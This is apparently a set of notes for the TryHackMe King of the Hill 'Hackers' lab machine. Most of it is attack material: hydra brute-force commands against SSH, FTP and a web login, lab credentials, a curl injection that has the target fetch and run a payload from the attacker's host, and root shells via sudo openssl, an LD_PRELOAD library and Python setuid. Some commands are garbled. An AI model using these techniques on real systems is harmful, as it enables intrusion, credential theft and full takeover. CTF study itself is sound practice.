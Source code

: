 
#### This machine is brute force heavy - apparently

[ChrisPritchard](https://github.com/ChrisPritchard/ctf-writeups/blob/master/tryhackme-koth/koth-hackers.md) *"i suspect rockyou is not the best - examining the plague server, it seems to consist of common english words - i have broken in with `caravan`, and through ssh with rcampbell as `hernandez`. I have also run hydra for the whole hour with rockyou and gotten nowhere."*

Note from FTP:
```goat
Note:
Any users with passwords in this list:
love
sex
god
secret
will be subject to an immediate disciplinary hearing.
Any users with other weak passwords will be complained at, loudly.
These users are:
rcampbell:Robert M. Campbell:Weak password
gcrawford:Gerard B. Crawford:Exposing crypto keys, weak password
Exposing the company's cryptographic keys is a disciplinary offense.
Eugene Belford, CSO
```
**To reiterate** [ChrisPritchard](https://github.com/ChrisPritchard/ctf-writeups/blob/master/tryhackme-koth/koth-hackers.md) says *"i suspect rockyou is not the best - examining the plague server, it seems to consist of common english words - i have broken in with `caravan`, and through ssh with rcampbell as `hernandez`. I have also run hydra for the whole hour with rockyou and gotten nowhere."*

```bash
hydra -l rcampbell -P /usr/share/wordlists/rockyou.txt ssh://hackers.thm -t 64 | grep -oP "password: \K.*"

# Aquinas has also had success with `xato-net-10-million-passwords-100000.txt`
hydra -l plague -P rockyou.txt -t 64 10.10.107.80 http-post-form "/api/login:username=^USER^&password=^PASS^:Incorrect"

curl -d "username=plague&password=PASS" RHOST/api/login # gets the session key
curl -H "Cookie: SessionToken=SESSIONKEY" -d "wget LHOST:1234/client -O .bash && chmod +x .bash && ./.bash" RHOST/api/cmd
```

#### Map
```lua
nmap service overview
```

#### Default Credentials - ** THIS BOX HAS RANDOM RU.txt creds** 
```
gcrawford : PAOLA
gcrawford's id_rsa : 25192519
rcampbell : molly

plague : twentyone # http://hacker.thm/backdoor
```

https://github.com/Machinh/Koth-THM/blob/main/HACKERS says
```
rcampbell:molly,april
```

#### Network Services to Foothold

Get passwords
```bash
wget ftp:// gcrawford:PAOLA/.ssh/id_rsa

ssh -i id_rsa gcrawford@hacker.thm

hydra rcampbhell /backdoor/ 

hydra -L users.txt -P rockyou.txt -t 64 ftp://hackers.thm
hydra -L users.txt -P rockyou.txt -t 64 ssh://hackers.thm
```

`/home/crawford/business.txt` leaks a `gpg` to ssh into the machine, get 

#### Privilege Escalation

openssl sudo no passwd 
```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
chmod +x shell.so
sudo openssl req -engine ./shell.so
```

`/usr/bin/python3.6` has `cap_setuid+ep` - `getcap -r / 2>/dev/null`
```python
import os,pty

os.setuid(0)
pty.spawn("/bin/bash")
```

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```

- production can run `openssl` as root via sudo. read any file with `sudo openssl enc -in source`, and write files with `sudo openssl enc -in source -out dest` or `cat source | sudo openssl -out dest`
- this can be removed with `rm /etc/sudoers.d/production`
- gcrawford can run `pico` as root via sudo
- this can be removed with `rm /etc/sudoers.d/gcrawford`
- otherwise `/usr/bin/python3.6` has the setuid capability, and can get a root shell via: `/usr/bin/python3.6 -c 'import os; os.setuid(0); os.system("/bin/sh")'`
- this can be removed with `setcap -r /usr/bin/python3.6`

#### Flags
```
cat /home/crawford/business.txt | grep thm
cat /home/production/.flag
cat /home/rcampbell/.flag
cat /var/ftp/.flag
cat /root/king.txt
```

Flags for Aquinas https://github.com/ChrisPritchard/ctf-writeups/blob/master/tryhackme-koth/koth-hackers.md
```
/root/.flag
/home/gcrawford/business.txt
/home/tryhackme/.flag
/home/rcampbell/.flag
/home/production/.flag
/home/production/webserver/resources/main.css
/var/ftp/.flag
/etc/vsftpd.conf
/etc/ssh/sshd_config
```

#### References
https://m3n0sd0n4ld.github.io/patoHackventuras/KoTH-Hackers
https://github.com/hoodietramp/TryHackMe-KOTH-Machine-HACKERS-Walkthrough
https://github.com/0x76OID/KOTH/blob/main/Hackers/Hackers.sh
https://github.com/ChrisPritchard/ctf-writeups/blob/master/tryhackme-koth/koth-hackers.md